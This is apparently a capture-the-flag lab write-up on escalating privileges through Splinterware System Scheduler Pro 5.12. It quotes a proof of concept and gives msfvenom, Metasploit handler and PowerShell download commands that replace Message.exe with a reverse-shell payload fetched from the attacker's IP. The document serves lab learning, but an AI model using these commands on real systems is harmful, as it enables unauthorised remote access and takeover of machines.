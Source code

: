 Proof of Concept

1. Login as regular user where Splinterware System Scheduler Pro 5.12 and the service are installed 
2. Create malicious .exe with same name 'wservice.exe' that can connect back to attacking machine
3. Download malicious .exe on victim machine, and setup listener on attacking machine
4. Rename original wservice.exe file to wservice.bak, and copy malicious file to location of original   
5. wait short amount of time and check attacking machine listener
6. connection back from victim machine successful, run whoami

So for us we need to:

1. Create a malicious payload (using msfvenom like before) named Message.exe, same LHOST, different LPORT.
2. Start up another metasploit handler with same config as the payload.
3. Download the Message.exe file on the victim (box) using Powershell's Invoke-WebRequest
4. Rename the original Message.exe to Message.exe.bak, and copy the file into the SystemScheduler folder.
5. Wait for the Message.exe file to be executed.
6. Shell created!

Let's try this out:

1. Create Payload:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.82.167 LPORT=1234 -f exe > Message.exe

2. Start up another metasploit handler (background the first with Ctrl+Z):

    set LPORT 1234
    run

3. Download the Message.exe file onto the victim box:
   
   cd c:\Program Files (x86)\SystemScheduler\
   ren Message.exe Message.exe.bak
   powershell Invoke-WebRequest -Uri http://10.8.82.167/Message.exe -Outfile Message.exe

   (Unsure if we have the ability to write in here, but we'll see).

4. Wait.

Original Size:
03/25/2018  10:58 AM           536,992 Message.exe

New Size:
07/31/2020  03:40 PM            73,802 Message.exe


10.10.200.77



What is the user flag (on Jeffs Desktop)?
#6 	

What is the root flag?

